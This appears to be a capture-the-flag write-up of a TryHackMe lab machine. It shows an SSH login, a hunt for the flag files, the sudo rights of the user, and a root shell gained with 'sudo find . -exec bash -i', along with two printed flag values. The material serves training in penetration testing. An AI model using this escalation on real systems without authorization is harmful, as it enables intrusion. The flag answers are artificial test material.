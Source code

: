 ## Gaining Access

```
$ ssh missy@10.10.17.216
(missy@10.10.17.216) Password:
Last login: Mon Jun  7 21:19:11 2021
[missy@ip-10-10-17-216 ~]$
```
### Getting Flag-1
```
[missy@ip-10-10-17-216 ~]$ find . -type f -name "*flag*" 2>/dev/null
./Documents/flag1.txt
[missy@ip-10-10-17-216 ~]$ cat Documents/flag1.txt
THM-42828719920544
```

### Checking `sudo` Privileges on `missy`

```
[missy@ip-10-10-17-216 ~]$ sudo -l
Matching Defaults entries for missy on ip-10-10-17-216:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-17-216:
    (ALL) NOPASSWD: /usr/bin/find
[missy@ip-10-10-17-216 ~]$
```

## Gaining `root` Access

We can spawn `root` shell by taking advantage of `sudo` permission given to `/usr/bin/find`
```
[missy@ip-10-10-17-216 ~]$ sudo find . -exec bash -i \;
[root@ip-10-10-17-216 missy]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@ip-10-10-17-216 missy]#
```

### Getting Flag-2

```
[root@ip-10-10-17-216 ~]# cd /home/rootflag
[root@ip-10-10-17-216 rootflag]# ls
flag2.txt
[root@ip-10-10-17-216 rootflag]# cat flag2.txt
THM-168824782390238
[root@ip-10-10-17-216 rootflag]#
```
